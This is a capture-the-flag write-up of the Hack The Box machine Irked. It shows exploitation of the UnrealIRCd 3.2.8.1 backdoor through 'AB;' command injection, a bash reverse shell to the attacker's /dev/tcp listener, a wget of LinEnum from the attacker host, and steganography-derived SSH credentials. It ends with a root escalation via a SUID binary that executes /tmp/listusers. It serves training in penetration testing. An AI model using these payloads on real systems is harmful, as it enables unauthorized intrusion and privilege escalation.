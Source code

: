 ```yaml
---
layout: article
title: Hack the Box - Irked
permalink: /ctfs/htb-irked
key: page-aside
aside:
  toc: true
---
```


Quick write-up of Hack The Box: Irked

<!--more-->

<style>
  .page__header .header__brand path {
    fill: rgba(255, 255, 255, .95);
  }
</style>


## Enumeration


We start off with an aggressive nmap scan of all ports:

<img src="/assets/images/ctfs/htb-irked/nmap.png" alt="" class="center" alt="" class="center">

We find IRC running on port 8067 but can't resolve the server's host name with netcat. It's unrelated to the NOTICE AUTH message we're receiving, but prevents us from connecting nonetheless. We need to add an entry in <b>/etc/hosts</b> first.

```bash
root@kali:~# nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
root@kali:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.117    irked.htb
...
```

After adding <b>irked.htb</b> to the <b>/etc/hosts</b> file, we find the RFC for IRC at <a href="https://tools.ietf.org/html/rfc2812#section-3.1" target="_blank">https://tools.ietf.org/html/rfc2812#section-3.1</a> and determine how to proceed communicating to the IRC server using the information listed under section 3.1.

```bash
root@kali:~# ncat 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
PASS test
NICK test
USER test testhost testserver :testrealm
:irked.htb 001 test :Welcome to the ROXnet IRC Network test!test@10.10.14.16
:irked.htb 002 test :Your host is irked.htb, running version Unreal3.2.8.1
:irked.htb 003 test :This server was created Mon May 14 2018 at 13:12:50 EDT
:irked.htb 004 test irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
:irked.htb 005 test UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
:irked.htb 005 test WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
:irked.htb 005 test EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
:irked.htb 251 test :There are 1 users and 0 invisible on 1 servers
:irked.htb 253 test 1 :unknown connection(s)
:irked.htb 255 test :I have 1 clients and 0 servers
:irked.htb 265 test :Current Local Users: 1  Max: 1
:irked.htb 266 test :Current Global Users: 1  Max: 1
:irked.htb 422 test :MOTD File is missing
:test MODE test :+iwx
```

Searchsploit returns a known backdoor exploit for Unreal3.2.8.1.

<img src="/assets/images/ctfs/htb-irked/searchsploit-unreal.png" alt="" class="center" alt="" class="center">

<a href="https://lwn.net/Articles/392201/" target="_blank">https://lwn.net/Articles/392201/</a> describes how the backdoor is designed. If we take a look at an existing exploit, <a href="https://lwn.net/Articles/392201/" target="_blank">https://www.exploit-db.com/exploits/13853</a>, we can see that there isn't much to the backdoor. We can simply append "AB" to any command we send through IRC and the rest of the command will be executed by the system.

The following proof of concept is credited to <a href="https://youtu.be/OGFTM_qvtVI?t=618" target="_blank">IppSec</a>. 
```bash
 root@kali:~# echo "AB; ping -c 1 10.10.14.16" | ncat 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:irked.htb 451 AB; :You have not registered
ERROR :Closing Link: [10.10.14.16] (Client exited)
```

```bash
root@kali:~# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
00:05:49.726194 IP irked.htb > kali: ICMP echo request, id 1426, seq 1, length 64
00:05:49.726263 IP kali > irked.htb: ICMP echo reply, id 1426, seq 1, length 64
```

## User Shell

In order to obtain a user shell, we use a reverse bash shell that uses the <b>-c</b> flag. This is necessary since it seems that the default system shell isn't bash.

<img src="/assets/images/ctfs/htb-irked/user-shell.png" alt="" class="center" alt="" class="center">

```bash
root@kali:~# echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.14.16/8888 0>&1'" | ncat 10.10.10.117 8067

```
```bash
root@kali:~# nc -lvp 8888
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.117.
Ncat: Connection from 10.10.10.117:48061.
bash: cannot set terminal process group (636): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
ircd@irked:~/Unreal3.2$
```

There appears to be a <b>.backup</b> file that we can read in <b>/home/djmardov/Documents</b>.

```bash
ircd@irked:/home/djmardov$ find . -ls
1061877    4 drwxr-xr-x  18 djmardov djmardov     4096 Nov  3  2018 .
1177472    4 drwx------   3 djmardov djmardov     4096 May 11  2018 ./.dbus
find: `./.dbus': Permission denied
1061885    4 -rw-r--r--   1 djmardov djmardov      675 May 11  2018 ./.profile
1062684    0 lrwxrwxrwx   1 root     root            9 Nov  3  2018 ./.bash_history -> /dev/null
1177702    4 drwx------   2 djmardov djmardov     4096 May 11  2018 ./.ssh
find: `./.ssh': Permission denied
1061894    4 drwxr-xr-x   2 djmardov djmardov     4096 May 14  2018 ./Downloads
1177456    4 drwxr-xr-x   2 djmardov djmardov     4096 May 15  2018 ./Documents
1177813    4 -rw-------   1 djmardov djmardov       33 May 15  2018 ./Documents/user.txt
1177807    4 -rw-r--r--   1 djmardov djmardov       52 May 16  2018 ./Documents/.backup
1177703    4 drwx------   2 djmardov djmardov     4096 May 15  2018 ./.gnupg
find: `./.gnupg': Permission denied
1061893    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Desktop
1177523    4 drwx------  13 djmardov djmardov     4096 May 15  2018 ./.cache
find: `./.cache': Permission denied
1177487    4 drwx------   3 djmardov djmardov     4096 Nov  3  2018 ./.gconf
find: `./.gconf': Permission denied
1177477    4 drwx------   3 djmardov djmardov     4096 May 11  2018 ./.local
find: `./.local': Permission denied
1061897    8 -rw-------   1 djmardov djmardov     4706 Nov  3  2018 ./.ICEauthority
1177457    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Music
1177455    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Public
1177467    4 drwx------  15 djmardov djmardov     4096 May 15  2018 ./.config
find: `./.config': Permission denied
1061886    4 -rw-r--r--   1 djmardov djmardov      220 May 11  2018 ./.bash_logout
1061887    4 -rw-r--r--   1 djmardov djmardov     3515 May 11  2018 ./.bashrc
1177466    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Videos
1177458    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Pictures
1061895    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Templates
1177582    4 drwx------   4 djmardov djmardov     4096 May 11  2018 ./.mozilla
```

Within the file, we find a steganography password.

```bash
ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

The password happens to work on an image found on web server's homepage.

<img src="/assets/images/ctfs/htb-irked/face.png" alt="" class="center" alt="" class="center">

Using <b>steghide</b>, we can extract data embedded within irked.jpg. We happen to find a password that works as an SSH password for the djmardov user.

```bash
root@kali:~/htb/irked# steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss -xf irked.txt
wrote extracted data to "irked.txt".
root@kali:~/htb/irked# cat irked.txt
Kab6h+m+bbp2J:HG
root@kali:~/htb/irked# ssh djmardov@10.10.10.117 -p Kab6h+m+bbp2J:HG
Bad port 'Kab6h+m+bbp2J:HG'
root@kali:~/htb/irked# ssh djmardov@10.10.10.117
The authenticity of host '10.10.10.117 (10.10.10.117)' can't be established.
ECDSA key fingerprint is SHA256:kunqU6QEf9TV3pbsZKznVcntLklRwiVobFZiJguYs4g.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.117' (ECDSA) to the list of known hosts.
djmardov@10.10.10.117's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$

```

From here, we can <b>cat</b> the <b>user.txt</b> file in <b>/home/djmardov/</b>. We then use <b>LinEnum</b> to enumerate the system, serving the script on a Python SimpleHTTPServer.

```bash
root@kali:/opt/LinEnum# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

```bash
djmardov@irked:~$ wget 10.10.14.16:8000/LinEnum.sh
--2019-06-04 00:06:38--  http://10.10.14.16:8000/LinEnum.sh
Connecting to 10.10.14.16:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45639 (45K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                              100%[==============================================================================>]  44.57K  --.-KB/s   in 0.1s

2019-06-04 00:06:38 (389 KB/s) - ‘LinEnum.sh’ saved [45639/45639]

djmardov@irked:~$ chmod +x LinEnum.sh
djmardov@irked:~$ ./LinEnum.sh
```

## Root Shell

Using <b>LinEnum</b>, we come across an interesting custom SUID binary called <b>viewuser</b> that we can transfer back to our machine using scp.


```bash
root@kali:~/htb/irked# scp djmardov@10.10.10.117:/usr/bin/viewuser .
djmardov@10.10.10.117's password:
viewuser                                                                                                                   100% 7328   117.6KB/s   00:00
root@kali:~/htb/irked# ls
irked.jpg  irked.txt  nmap-10.10.10.117  viewuser
```

Using <b>ltrace</b>, we can view the libary calls in the binary.

```bash
root@kali:~/htb/irked# ltrace ./viewuser
__libc_start_main(0x5663657d, 1, 0xffc2d8d4, 0x56636600 <unfinished ...>
puts("This application is being devleo"...This application is being devleoped to set and test user permissions
)                                                      = 69
puts("It is still being actively devel"...It is still being actively developed
)                                                      = 37
system("who"root     :1           2019-06-03 22:44 (:1)
root     pts/2        2019-06-03 23:32 (tmux(2473).%0)
root     pts/3        2019-06-03 23:32 (tmux(2473).%1)
root     pts/4        2019-06-03 23:54 (tmux(2473).%2)
root     pts/5        2019-06-04 00:06 (tmux(2473).%3)
root     pts/6        2019-06-04 00:11 (tmux(2473).%4)
root     pts/7        2019-06-04 00:30 (tmux(2473).%6)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                           = 0
setuid(0)                                                                                        = 0
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                           = 32512
+++ exited (status 0) +++
```

We can see that it sets user id to 0 (root) and executes <b>/tmp/listusers</b>. Back on irked, we can create a file called <b>/tmp/listusers</b> that executes <b>su</b>. If we use the <b>/usr/bin/viewuser</b> binary to execute <b>/tmp/listusers</b>, we should be able to escalate our privileges to root.

```bash
djmardov@irked:/tmp$ vi listusers
djmardov@irked:/tmp$ cat listusers
#!/bin/bash
su
djmardov@irked:/tmp$ chmod +x listusers
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-06-03 00:48 (:0)
djmardov pts/2        2019-06-03 23:54 (10.10.14.16)
root@irked:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
